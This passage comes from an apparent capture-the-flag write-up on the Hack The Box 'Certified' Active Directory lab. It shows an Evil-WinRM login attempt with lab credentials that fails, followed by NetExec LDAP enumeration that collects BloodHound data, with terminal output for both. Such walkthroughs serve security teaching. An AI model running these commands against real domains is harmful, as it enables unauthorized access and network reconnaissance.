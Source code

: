 Then, I tried to have a PowerShell session using Evil-WinRM, and from there, I ran SharpHound for a complete AD picture. But again, I got the same result.  


```jsx
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.10.11.41 -u judith.mader -p 'judith09'      
                                       
Evil-WinRM shell v3.7                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
                              
```
Then, I used NetExec to enumerate LDAP on `dc01.certified.htb` and collected Active Directory data for BloodHound.  

```jsx
──(kali㉿kali)-[~]
└─$ netexec ldap dc01.certified.htb -u judith.mader -p judith09 --bloodhound --collection All  --dns-server 10.10.11.41

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\judith.mader:judith09 
LDAP        10.10.11.41     389    DC01             Resolved collection methods: group, localadmin, objectprops, trusts, session, psremote, acl, rdp, container, dcom
LDAP        10.10.11.41     389    DC01             Done in 01M 49S
LDAP        10.10.11.41     389    DC01             Compressing output into /home/kali/.nxc/logs/DC01_10.10.11.41_2025-02-11_093143_bloodhound.zip
                                                                                 
```

Now, we check the results in BloodHound.  

<img src="Imgs/image1.png" alt="error loading image">  
